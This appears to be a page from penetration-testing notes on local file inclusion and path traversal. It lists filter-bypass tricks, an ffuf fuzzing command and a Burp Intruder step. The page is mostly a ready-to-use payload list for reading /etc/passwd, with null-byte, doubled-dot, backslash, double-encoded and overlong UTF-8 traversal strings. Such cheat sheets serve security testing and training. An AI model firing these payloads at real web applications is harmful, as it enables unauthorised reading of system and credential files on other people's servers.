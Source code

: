 ### Bypass Techniques

* Use **some payloads** to bypass basic filter
* Add **NULL BYTE** `%00` at the end of the file to avoid extention force (fixed in php 5.3.4)
* **Change the request method** GET to POST and viceversa to avoid filter in specific request method.





### Fuzzing tools

#### Ffuf

```bash
ffuf -u 'URL/image?filename=FUZZ' -w /PATH/TO/WORDLIST 
```

#### Burp Suite

Intercept the request and send it to Intruter. Now load a wordlist and start the SNIPER attack

<figure><img src="../../../../../.gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>



### Bypass Payloads

{% code title="Files" %}
```
/usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
```
{% endcode %}

{% code title="Manual" overflow="wrap" %}
```bash
# bypass include php function
../../../../../../etc/passwd 

# set NULL BYTE at the end to bypass file type and bypass Blacklist filter, not working with PHP 5.3.4 and above
../../../../../../etc/passwd%00 

# bypass ./ replaces by empty string
....//....//....//....//....//etc/passwd 
?page=..///////..////..//////etc/passwd
?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

# Double encoding
?page=%252e%252e%252fetc%252fpasswd
?page=%252e%252e%252fetc%252fpasswd%00

# UTF-8 Encoding
?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```